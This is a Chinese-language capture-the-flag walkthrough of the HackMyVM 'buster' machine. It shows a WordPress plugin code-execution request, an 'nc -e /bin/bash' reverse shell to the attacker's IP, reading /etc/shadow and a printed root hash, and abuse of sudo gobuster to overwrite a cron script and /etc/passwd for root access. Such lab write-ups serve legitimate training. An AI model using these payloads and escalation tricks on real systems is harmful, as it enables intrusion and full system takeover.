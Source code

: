 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_buster","dg-path":"安全/靶机/hackmyvm_buster.md","permalink":"/安全/靶机/hackmyvm_buster/","dgPassFrontmatter":true}
---
```


# 主机发现

![Pasted image 20250124200157.png](/img/user/picture/Pasted%20image%2020250124200157.png)

开放80端口
![Pasted image 20250124200222.png](/img/user/picture/Pasted%20image%2020250124200222.png)



# web渗透
![Pasted image 20250124200510.png](/img/user/picture/Pasted%20image%2020250124200510.png)
由**wordpress**搭建

![Pasted image 20250125185710.png](/img/user/picture/Pasted%20image%2020250125185710.png)
存在两个用户：
```
ta0
welcome
```

尝试弱密码破解，未果
![Pasted image 20250125190727.png](/img/user/picture/Pasted%20image%2020250125190727.png)

![Pasted image 20250125190717.png](/img/user/picture/Pasted%20image%2020250125190717.png)


## 插件漏洞


```shell
wpscan --url http://。。。/ -e ap --plugins-detection aggressive --api-token xxx 
```

![Pasted image 20250125193432.png](/img/user/picture/Pasted%20image%2020250125193432.png)

POC：
https://github.com/RandomRobbieBF/CVE-2024-50498
```http
POST /wp-json/wqc/v1/query HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-query-console
Content-Type: application/json
Content-Length: 45
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

{"queryArgs":"phpinfo();","queryType":"post"}
```
![Pasted image 20250125193519.png](/img/user/picture/Pasted%20image%2020250125193519.png)


![Pasted image 20250125194158.png](/img/user/picture/Pasted%20image%2020250125194158.png)
![Pasted image 20250125194206.png](/img/user/picture/Pasted%20image%2020250125194206.png)
确实可以执行


现在进行反弹shell

![Pasted image 20250125194459.png](/img/user/picture/Pasted%20image%2020250125194459.png)
![Pasted image 20250125194506.png](/img/user/picture/Pasted%20image%2020250125194506.png)

成功连接

## 提权

sudo -l需要密码，弄不了


先看一下别的信息
![Pasted image 20250125195026.png](/img/user/picture/Pasted%20image%2020250125195026.png)
配置文件中有数据库信息

![Pasted image 20250125195124.png](/img/user/picture/Pasted%20image%2020250125195124.png)

![Pasted image 20250125195157.png](/img/user/picture/Pasted%20image%2020250125195157.png)

```txt
 ta0          $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
 welcome      $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/
```

![Pasted image 20250125195454.png](/img/user/picture/Pasted%20image%2020250125195454.png)

![Pasted image 20250125200005.png](/img/user/picture/Pasted%20image%2020250125200005.png)

```txt
104567
```


![Pasted image 20250125200050.png](/img/user/picture/Pasted%20image%2020250125200050.png)


用pspy64监听一下自动化任务
![Pasted image 20250125205407.png](/img/user/picture/Pasted%20image%2020250125205407.png)
也就是会执行
```bash
/opt/.test.sh
```
![Pasted image 20250125205549.png](/img/user/picture/Pasted%20image%2020250125205549.png)

**利用gobuster读取任意文件**
可以将要读取的文件作为字典
```shell
sudo gobuster -w /opt/.test.sh -u http://192.168.31.92:8000
```

![Pasted image 20250125210451.png](/img/user/picture/Pasted%20image%2020250125210451.png)
在攻击机上就会收到其内容

其实也可以尝试读一下shadow
```shell
root:$6$uvmZZfH41v4CKcWZ$kAglkiLVm6RQYjB/9wZ8GgmbJQqT8QZazoC7hz27tArTJkp7wQZ..0jAnw3BEge9aeN6614uoDeRn5aHvVqc10:20096:0:99999:7:::
```


**利用gobuster写任意文件**

可以先在`/tmp`目录下建一个可执行文件`eval`
```txt
nc -e /bin/bash 192.168.31.92 1234
```
![Pasted image 20250125213144.png](/img/user/picture/Pasted%20image%2020250125213144.png)

我们在靶机上创建目录`/tmp/eval`

可以看到现在执行gobuster的输出结果就是`/tmp/eval`
![Pasted image 20250125213607.png](/img/user/picture/Pasted%20image%2020250125213607.png)

可以设想如果他在自动化任务中的话，也就是`/opt/.test.sh`中，eval文件就会执行，也就是会反弹shell


```shell
sudo gobuster -w wordlist -u http://192.168.31.92:8000 -n -q
 -o /opt/.test.sh
```

成功拿到root
![Pasted image 20250125214438.png](/img/user/picture/Pasted%20image%2020250125214438.png)



# 总结

首先通过wordpress的插件漏洞拿到webshell

通过查看配置文件获取到数据库信息，读取到数据库中welcome的账号密码

靶机也有用户welcome,尝试密码撞库，成功，拿到普通用户权限

查看sudo权限发现有gobuster特权
通过pspy工具了解到有用户层面的自动化任务
![Pasted image 20250125214928.png](/img/user/picture/Pasted%20image%2020250125214928.png)

这个靶场关键点在于怎么利用gobuster进行文件的读写

**首先读：**
可以将要读的文件当作字典，在攻击机上开一个临时web服务，这样就能间接查看文件内容


**写：**
写的思路依靠`-o`参数，也就是可以将结果保存到某个文件中，所以难点就在如何控制gobuster的输出
通过`-n -q`参数，可以实现只输出扫到的目录
也就是说如果我们扫描的目标具有`/a/b/c`目录的话
而我们的字典中有`a/b/c`,这样他的输出就是`/a/b/c`

所以在攻击时将自动化任务文件内容替换为`/tmp/eval`
而这个文件是一个反弹shell的可执行文件
这样我们就能获取rootshell





### 尝试改写/etc/passwd

首先给自己建一个密码
```shell
perl -e 'print crypt("1","aa")'
```
密码的值为 `1`
```txt
aacFCuAIHhrCM
```

所以最后要写入的内容为
```txt
/x:aacFCuAIHhrCM:0:0:x:/root:/bin/bash
```

![Pasted image 20250125222025.png](/img/user/picture/Pasted%20image%2020250125222025.png)


在靶机上建立目录
```shell
mkdir -p 'x:aacFCuAIHhrCM:0:0:x:/root:/bin/bash'
```
这里最后把最后的`bash`删掉，换成一个文件


![Pasted image 20250125222340.png](/img/user/picture/Pasted%20image%2020250125222340.png)

![Pasted image 20250125222446.png](/img/user/picture/Pasted%20image%2020250125222446.png)
也是成功拿到root权限，这种方法可以不借助自动化任务
但是更暴力








